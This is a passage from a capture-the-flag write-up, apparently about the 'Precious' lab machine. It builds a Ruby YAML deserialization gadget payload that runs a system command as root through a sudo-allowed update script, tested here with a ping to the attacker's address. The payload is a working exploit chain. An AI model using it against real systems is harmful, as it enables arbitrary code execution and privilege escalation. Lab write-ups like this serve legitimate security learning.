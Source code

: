 With that said, we can take the sleep POC, remove the extra spaces, and modify the payload to something better. Remember that ping command we did with testing command injection for pdfkit? Let's do that again. All that we need to do is modify the 'Sleep 600' to be '"ping -c 1 10.10.14.22"' and we are in business. Of course you could have skipped ahead in the article and taken the reverse shell code, but if something had gone wrong an assumption could have been made that we were on the wrong track. I find it best to start simple, so we end up with the following payload:

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "ping -c 1 10.10.14.22"
         method_id: :resolve 
```

We could save this as a file on our local machine and transfer it over, or create the file on Precious and paste it in. I chose to create this in /dev/shm/dependencies.yml and paste the contents into the file. VI was being annoying here so better luck may be had with nano. It is worth noting that Precious does have some automated cleanup going on, so if the timing is bad the file may be removed before being ran.

Once the file is created, we setup the same listener with tcpdump as before, `tcpdump -i tun0 icmp` and fire off the command with `sudo /usr/bin/ruby /opt/update_dependencies.rb`.
